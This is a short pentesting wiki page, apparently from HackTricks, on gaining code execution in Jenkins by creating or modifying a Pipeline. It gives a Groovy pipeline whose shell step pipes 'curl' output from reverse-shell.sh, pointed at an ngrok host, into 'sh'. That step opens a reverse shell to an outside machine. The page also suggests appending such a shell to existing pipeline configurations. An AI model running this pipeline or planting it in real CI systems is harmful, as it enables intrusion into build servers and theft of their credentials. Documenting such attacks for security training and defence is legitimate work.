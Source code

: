 # Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Creating a new Pipeline

In "New Item" (accessible in `/view/all/newJob`) select **Pipeline:**

![](<../../images/image (235).png>)

In the **Pipeline section** write the **reverse shell**:

![](<../../images/image (285).png>)

```groovy
pipeline {
    agent any

    stages {
        stage('Hello') {
            steps {
                sh '''
                    curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
                '''
            }
        }
    }
}
```

Finally click on **Save**, and **Build Now** and the pipeline will be executed:

![](<../../images/image (228).png>)

## Modifying a Pipeline

If you can access the configuration file of some pipeline configured you could just **modify it appending your reverse shell** and then execute it or wait until it gets executed.

{{#include ../../banners/hacktricks-training.md}}





